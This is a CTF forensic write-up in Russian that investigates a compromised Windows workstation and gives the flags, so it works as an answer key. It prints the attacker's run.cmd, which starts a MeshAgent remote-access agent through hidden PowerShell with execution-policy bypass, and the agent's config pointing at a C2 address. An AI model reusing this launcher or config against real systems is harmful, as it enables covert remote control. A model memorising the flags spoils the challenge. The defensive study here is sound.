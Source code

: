 # Digital footprint

## Легенда

На закрытых форумах была обнаружена утечка конфиденциальных данных, связанных с организацией. По содержимому утечки удалось локализовать рабочую станцию под управлением Windows. Вам предоставлены собранные цифровые артефакты для проведения дальнейшего анализа.

1. Необходимо определить семейство вредоносного ПО (указать ссылку на репозиторий проекта), использованного злоумышленниками после получения доступа к информационной системе.
Формат флага: rdg{https://github.com/author/project}

2. Необходимо подготовить перечень индикаторов компрометации для их использования на средствах защиты информации. Укажите MD5 хеш-сумму основного модуля ВПО (в нижнем регистре) и IP-адрес его центра удаленного управления.
Формат флага: rdg{MD5_127.0.0.1}

3. Необходимо определить способ закрепления злоумышленника в системе. Способ закрепления необходимо указать в формате MITRE ATT&CK. Укажите имя созданной сущности для закрепления (без пробелов, в нижнем регистре).
Формат флага: rdg{TXXXX.XXX_name}

### Решение

Посмотрим, какие исполняемые файлы запускались в рамках скомпрометированной операционной системе. Существует большое количество артефактов, указывающих на это. Рассмотрим некоторые из них.
- Program Compatibility Assistant (PCA). Данный артефакт в каком-то виде появился еще в Windows 8, но в полной мере стал использоваться с Windows 11 Pro (22H2). Подробнее: https://aboutdfir.com/new-windows-11-pro-22h2-evidence-of-execution-artifact/.

Содержимое C:\\Windows\\appcompat\\pca\\PcaAppLaunchDic.txt:

```
D:\setup64.exe|2025-03-23 21:30:35.599
C:\Program Files\WindowsApps\Microsoft.WindowsNotepad_11.2112.32.0_x64__8wekyb3d8bbwe\Notepad\Notepad.exe|2025-03-23 21:31:33.302
C:\Users\tech\Downloads\7z2409-x64.exe|2025-03-23 21:35:57.475
C:\Users\tech\Downloads\Firefox Installer.exe|2025-03-23 21:39:15.956
C:\Users\tech\Downloads\Updater.exe|2025-03-28 10:44:43.626
C:\Users\tech\Desktop\Collector_velociraptor-v0.74.1-windows-amd64.exe|2025-03-28 10:49:03.229

```
Содержимое C:\\Windows\\appcompat\\pca\\PcaGeneralDb0.txt:
```
2025-03-23 21:44:58.667|2|%programfiles%\mozilla firefox\firefox.exe|firefox|mozilla corporation|136.0.2|0006483fc29456f3f6192ed9832cd8992ebe00000000|Abnormal process exit with code 0x1
2025-03-23 21:44:58.762|2|%programfiles%\mozilla firefox\firefox.exe|firefox|mozilla corporation|136.0.2|0006483fc29456f3f6192ed9832cd8992ebe00000000|Abnormal process exit with code 0x1
2025-03-23 21:44:58.809|2|%programfiles%\mozilla firefox\firefox.exe|firefox|mozilla corporation|136.0.2|0006483fc29456f3f6192ed9832cd8992ebe00000000|Abnormal process exit with code 0x1
2025-03-28 10:44:46.424|3|%USERPROFILE%\downloads\updater.exe||||0006d35d19a7bfb72001932fe8df8f29500a0000ffff|PCA resolve is called, resolver name: DetectorShim_KernelDriver, result: 0

```
Можем получить временную метку запуска, полный путь, статус запуска и т.д.
- Application Activity Cache (AmCache). Файл реестра, содержащий данные о запуске исполняемых файлов. Располагается по следующему пути - C:\Windows\appcompat\Programs\Amcache.hve. Его можно распарсить с помощью инструмента RegRipper (https://github.com/keydet89/RegRipper3.0). Полученное содержимое:

```
<truncated>

c:\program files\7-zip\uninstall.exe  LastWrite: 2025-03-27 20:13:56Z
Hash: 5ded32077cda52b5527f75017552a598b0523db7

c:\program files (x86)\mozilla maintenance service\uninstall.exe  LastWrite: 2025-03-27 20:13:56Z
Hash: 072b39a0086ee0ecc283d51dbc295073c3cb0475

c:\users\tech\downloads\updater.exe  LastWrite: 2025-03-28 10:44:46Z
Hash: 7f56e91b828a0b48478765171f4208ad8f89bae0

c:\program files\mozilla firefox\updater.exe  LastWrite: 2025-03-27 20:13:56Z
Hash: 954d37c43e034b490b691666ce85c7a8eb2486d2

c:\windows\system32\upfc.exe  LastWrite: 2025-03-23 21:32:31Z
Hash: 2d6bba219472d069f67c589ee4040a7e1c289bce

<truncated>
```
Здесь помимо всего прочего фигурирует SHA1-хеш исполняемого файла. Проверим хеш 7f56e91b828a0b48478765171f4208ad8f89bae0 засветившегося ранее файла c:\users\tech\downloads\updater.exe на VirusTotal.

![изображение](https://github.com/user-attachments/assets/29998ffa-007c-45d4-875b-1c4b74d11e99)

Файл представляет собой самораспаковывающийся архив. 

![изображение](https://github.com/user-attachments/assets/f6bfdb74-8b83-4dfc-828f-992d67340baf)

Смотрим дочерние объекты на вкладке Relations. 

![изображение](https://github.com/user-attachments/assets/c8d3603a-f56b-489c-98af-1ffea37e0b8c)

Архив включал в себя три файла:
- WindowsUpdater.exe 
- WindowsUpdater.msh 
- run.cmd

WindowsUpdater.exe (впрочем как и его родительский исполняемый файл) детектируется средствами антивирусной защиты как ПО MeshAgent, представляющее собой клиентскую часть общедоступного решения для удаленного администрирования. Поиск в сети приводит к Github репозиторию https://github.com/Ylianst/MeshAgent. 

#### Флаг rdg{https://github.com/Ylianst/MeshAgent}.

С VirusTotal сразу можно извлечь необходимые для детектирования индикаторы компрометации:
- Updater.exe, MD5: 1c704f556015d46eb9f95f9ef311ea8e 
- IP-адрес С2: 158.160.118.18

#### Флаг: rdg{1c704f556015d46eb9f95f9ef311ea8e_158.160.118.18}

Конфигурацию MeshAgent, включая адрес С2, можно также извлечь из содержимого ресурсной записи MFT (так как файлы имеют небольшой размер). Найдем извлекаемые файлы по уже известным с VT именам. Для парсинга MFT вспользуемся утилитой EZ MFTECmd:

```powershell
> .\MFTECmd.exe -f "uploads\ntfs\%5C%5C.%5CC%3A\$MFT" --csv "." --csvf mft.csv
```

Полученный csv проанализируем с помощью EZ Timeline Exporer:

![изображение](https://github.com/user-attachments/assets/5c1580a0-917e-4691-adeb-8bc8ea566ddc)

Попробуем извлечь содержимое файла run.cmd и WindowsUpdater.msh с помощью того же MFTECmd (в качестве значения аргумента --de указываем идентификатор искомой записи с резидентными данными).

Вывод содержимого run.cmd (пакетный файл, запускаемый при исполнении архива Updater.exe):
```powershell
> .\MFTECmd.exe -f 'uploads\ntfs\%5C%5C.%5CC%3A\$MFT' --de 111829

<truncated>
    ASCII:   @echo off
set processPath="%temp%\WindowsUpdater.exe"
set processArgs="run"

powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command Start-Process -FilePath %processPath% -ArgumentList '%processArgs%' -WindowStyle Hidden
    UNICODE: ??????????????????????????≥??4?????????????????????????????????????????????????????????????????????????4??????????????????

```
Вывод содержимого WindowsUpdater.msh (конфигурационный файл MeshAgent):
```powershell
> .\MFTECmd.exe -f 'uploads\ntfs\%5C%5C.%5CC%3A\$MFT' --de 111828

<truncated>
  ASCII:   ???MeshName=Victims
MeshType=2
MeshID=0x8CDEAF00D7038E14AB2C29E6756DD0ED6675495B008A75E95D8101A28122EC3656D9F7CAA9D8957183C64597A33AA135
ServerID=BE924D2D29C07D1C2A4A18C1092883B28A7A82A262D65062FE99C7C35BFBB9AD3A602C88C9F3772EC0475131EF44DDB1
MeshServer=wss://158.160.118.18:443/agent.ashx
InstallFlags=2
ignoreProxyFile=1
    UNICODE: ????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????
```
Для закрепления в системе существует множество техник (закрепление через реестр, сервис, каталоги автозагрузки и т.д.). Просмотрим содержимое куста реестра SOFTWARE (C:\\Windows\\System32\\config\\SOFTWARE) с помощью EZ Registry Explorer. Проведем поиск по ключевому слову ранее выявленного исполняемого файла MeshAgent - WindowsUpdater.exe. В результате установим факт наличия созданной задачи "OneDrive Init" в планировщике задач Windows:

![изображение](https://github.com/user-attachments/assets/bcd73420-61bc-4d97-98dc-9b5e5e2f7159)

Использование планировщика задач Windows соответствует технике T1053.005 Scheduled Task/Job: Scheduled Task матрицы MITRE ATT&CK. 

#### Флаг: rdg{T1053.005_onedriveinit} 
